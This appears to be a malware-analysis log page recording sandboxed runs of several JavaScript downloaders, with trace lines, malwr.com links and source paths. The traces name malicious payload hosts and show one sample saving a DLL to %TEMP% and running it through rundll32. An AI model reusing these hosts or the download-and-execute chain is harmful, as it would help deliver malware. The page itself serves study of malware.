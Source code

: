 
## SHOP_12907.js ##

Source server not delivering the payload anymore:

    10 Dec 22:52:43 - MSXML2.XMLHTTP[5].open(GET,http://www.gooholtan.wang/log.php?f=2.dat,0)
    10 Dec 22:52:44 - MSXML2.XMLHTTP[5].statustext = (string) 'Error: connect EHOSTUNREACH 122.9.46.120:80'

and a bit later:

    10 Dec 23:16:48 - MSXML2.XMLHTTP[5].responsebody = (object) '??<!DOCTYPE html>??<!--[if IEMobile 7]><html class="no-js iem7 oldie"><![endif]-->?<!--[if (IE 7)&!(IEMobile)]><html class="no-js ie7 oldie" lang="en"><![endif]-->?<!--[if (IE 8)&!(IEMobile)]><html class="no-js ie8 oldie" lang="en"><![endif]-->?<!--[ ... (truncated)'

**malwr.com:** https://malwr.com/analysis/MzgyMTUzZWE0NmM1NDQxYmFmNzAzY2E0Nzg0NmM5ZGU/

**Source code:** malware/20161210/24c314dcfdfbfe984e7ca9e83a96f0aea1ac37cf92eab609f8d4916e6cde299e.js

**Command:**

    node jailme.js -c ./config_wscript_only.json --down=y malware/20161210/24c314dcfdfbfe984e7ca9e83a96f0aea1ac37cf92eab609f8d4916e6cde299e.js

**Output:** [malware/20161210/24c314dcfdfbfe984e7ca9e83a96f0aea1ac37cf92eab609f8d4916e6cde299e.out](malware/20161210/24c314dcfdfbfe984e7ca9e83a96f0aea1ac37cf92eab609f8d4916e6cde299e.out)


## DOC_1407.js ##

    28 Oct 14:30:07 - MSXML2.XMLHTTP[10].open(GET,http://bptpm.sragenkab.go.id/7fg3g?JvAPJlCD=qNkyfcBuTVK,false)
    28 Oct 14:30:11 - ADODB_Stream[13].SaveToFile(%TEMP%/qAzAXgsbYJR1.dll, 2)
    28 Oct 14:30:11 - WScript.Shell[9].Run(rundll32  %TEMP%/qAzAXgsbYJR1.dll,EnhancedStoragePasswordConfig, 0, false)

**malwr.com:** https://malwr.com/analysis/ZWM5ZTYzYWU0YWU4NDcwNDljNjQxZDdlODkwMTFkZmQ/

**Source code:** malware/20161028/7396e78d2ae93b29df342f7bdb67ef4f0b6860fb83ce4b14cc3e23613d636407.js

**Command:**

    node jailme.js --down=y malware/20161028/7396e78d2ae93b29df342f7bdb67ef4f0b6860fb83ce4b14cc3e23613d636407.js

**Output:** [malware/20161028/7396e78d2ae93b29df342f7bdb67ef4f0b6860fb83ce4b14cc3e23613d636407.out](malware/20161028/7396e78d2ae93b29df342f7bdb67ef4f0b6860fb83ce4b14cc3e23613d636407.out)

## UGO 472039384.js ##

"Seek and ye shall find":

    28 Oct 14:25:19 - MSXML2.XMLHTTP[10].open(GET,http://google.com/sgatde.php,false)
    28 Oct 14:25:19 - MSXML2.XMLHTTP[10].responseBody = (object) '<!DOCTYPE html>?<html lang=en>?  <meta charset=utf-8>?  <meta name=viewport content="initial-scale=1, minimum-scale=1, width=device-width">?  <title>Error 404 (Not Found)!!1</title>?  <style>?    *{margin:0;padding:0}html,code{font:15px/22px arial,sa ... (truncated)'
    28 Oct 14:25:19 - MSXML2.XMLHTTP[10].status = (number) '404'
    28 Oct 14:25:19 - MSXML2.XMLHTTP[12].open(GET,http://sdch-1VBbDXUNeofdvgfd1c9Oek5sOVBbDXUN571i5Bs.nl/exj71o.tg,false)
    28 Oct 14:25:19 - MSXML2.XMLHTTP[12] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"sdch-1vbbdxuneofdvgfd1c9oek5sovbbdxun571i5bs.nl","host":"sdch-1vbbdxuneofdvgfd1c9oek5sovbbdxun571i5bs.nl","port":80}
    28 Oct 14:25:19 - MSXML2.XMLHTTP[14].open(GET,http://ffwli4sHs1eqeofdvgfd1c9OeexTs.nl,false)
    28 Oct 14:25:19 - MSXML2.XMLHTTP[14] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"ffwli4shs1eqeofdvgfd1c9oeexts.nl","host":"ffwli4shs1eqeofdvgfd1c9oeexts.nl","port":80}